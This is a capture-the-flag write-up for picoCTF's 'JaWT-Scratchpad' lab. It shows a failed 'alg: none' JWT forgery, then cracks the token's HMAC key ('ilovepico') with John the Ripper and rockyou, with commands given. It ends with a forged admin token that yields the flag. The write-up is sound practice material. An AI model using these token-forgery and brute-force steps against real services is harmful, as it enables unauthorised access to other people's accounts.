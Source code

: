 ```yaml
---
title: "JaWT-Scratchpad"
date: "2020-12-26"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/25"
---
```

This is a learning-solving question.

Both website and hint tell us to look up JWT. 

After searching `JWT vulnerabilities` in Google, you can find this:

<https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

But after implementing this method, it seems wrong. When you Change the `jwt cookies` to 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

Which stands for the payload: 

```json
{
  "typ": "JWT",
  "alg": "none"
}

{
  "user": "admin"
}

{

}
```

You only get an 500 error. 

Read through this article <https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens> , combining the [hint](https://github.com/magnumripper/JohnTheRipper) they give, we can guess that we should bruteforce the password.

Also, because this scratchpad only use username as identity, we can guess that the `key` that used for encryption is fixed.

We can start solving this question after we know what to do.

First, generate a arbitrary `jwt cookies`. I will use username `john` here.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

Then, use [john-the-ripper](https://github.com/openwall/john) to bruteforce the key. You can use dictionary [rockyou](https://www.google.com/search?q=rockyou+txt) to bruteforce.

```
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > passwd

john --wordlist=./rockyou.txt passwd
```

We can see that the key is `ilovepico`.

We can then change the original payload using our key. You can conveniently do this step here: <https://www.jsonwebtoken.io/> 

After changing the user into `admin`, you can get the result JWT string:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJqdGkiOiI5NTc0NWVkNC04ZmVkLTRhZWQtYmU3Zi1iMDI3MDU0ZjUzM2IiLCJpYXQiOjE2MDkxMTM2OTgsImV4cCI6MTYwOTExNzMwNH0.8Eq1KaMo8cDtH3o79g04qKtx_muepD1zqGss3oiekPs
```

Replacing the original `jwt cookies` in the question to this, we can finally get the flag.